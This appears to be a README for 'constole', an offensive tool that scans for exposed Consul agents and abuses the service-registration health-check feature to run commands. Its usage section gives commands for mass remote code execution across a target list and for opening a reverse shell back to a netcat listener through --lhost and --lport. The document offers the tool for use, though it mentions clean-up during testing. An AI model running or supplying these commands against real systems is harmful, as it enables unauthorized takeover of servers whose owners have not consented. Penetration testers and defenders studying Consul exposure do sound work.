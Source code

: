 ## Overview
Scan for Consul agents and exploit them to gain shell.
I've been messing around with Consul and while reading the API, found the service registration endpoint.
Registrations feature check functionality, which is typically used to provide health checks on nodes.
A check can be an external application or script, which performs some kind of health check and provides some form of output.
Essentially, this can be any script you define to run at certain time intervals.

### Setup
```
pip install -r requirements.txt
```

### Usage
To scan for hosts running vulnerable Consul agent services, you can provide an comma-separated list with host:port,host:port,...,etc or an input file.
```
python constole.py --targets '10.50.30.1:8500,10.50.30.2:8500'
python constole.py --infile mytargets.txt
```
Remote Code Execution can be achieved across multiple hosts as follows:
```
python constole.py --infile mytargets.txt --cmd 'my command to run'
```
To obtain a reverse shell from the vulnerable host, start a netcat listener on your desired port and select a single target:
python constole.py --targets 10.50.30.1:8500 --lhost my_ip_address --lport my_listening_nc_port
```
Note that Constole will automatically try to deregister the service, after a time period, to assist in clean up during testing.
